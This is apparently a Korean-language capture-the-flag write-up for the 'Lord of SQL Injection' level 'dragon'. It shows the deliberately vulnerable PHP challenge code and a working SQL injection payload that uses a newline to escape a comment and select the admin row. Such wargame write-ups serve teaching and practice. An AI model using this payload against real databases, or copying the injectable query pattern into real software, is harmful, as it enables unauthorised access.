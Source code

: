 # Lord-Of-SQL-Injection 20 dragon

## Overview

```php
<?php
    include "./config.php";
    login_chk();
    dbconnect();
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
    $query = "select id from prob_dragon where id='guest'# and pw='{$_GET[pw]}'";
    echo "<hr>query : <strong>{$query}</strong><hr><br>";
    $result = @mysql_fetch_array(mysql_query($query));
    if($result['id']) echo "<h2>Hello {$result[id]}</h2>";
    if($result['id'] == 'admin') solve("dragon");
    highlight_file(__FILE__);
?>
```

## How to solve

`#` 는 한줄 주석이기 때문에, `%0a` 를 통해 줄바꿈을 해주면 우회할 수 있다.

이후 `and 1=0` 을 통해 `id='guest'` 의 결과를 false 로 만들어준 다음,

`id='admin` 을 통해서 `admin` 값을 가져온다.

`%0aand 1=0 or id='admin`